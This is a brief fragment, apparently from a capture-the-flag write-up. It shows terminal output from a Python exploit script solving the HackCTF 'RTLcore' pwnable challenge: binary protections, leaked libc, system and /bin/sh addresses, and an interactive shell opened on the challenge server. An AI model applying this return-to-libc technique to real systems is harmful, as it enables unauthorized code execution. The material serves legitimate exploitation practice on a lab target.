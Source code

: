 ```python
➜  RTLcore git:(master) ✗ python2 rtlcore.py
[*] '/home/ubuntu/CTF/hackctf/pwnable/RTLcore/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.j0n9hyun.xyz on port 3015: Done
코어 파일에 액세스중입니다...
패스코드를 입력해주세요
Passcode:
코드가 일치하구나. 좋아, 다음 단서를 던져주지
너에게 필요한 것은 바로 0x
printf addr :  0xf7e0a020
libc_base :  0xf7dc1000
system_addr :  0xf7dfb940
binsh_addr :  0xf7f1a02b
[*] Switching to interactive mode
 일거야
$ id
uid=1000(attack) gid=1000(attack) groups=1000(attack)
```
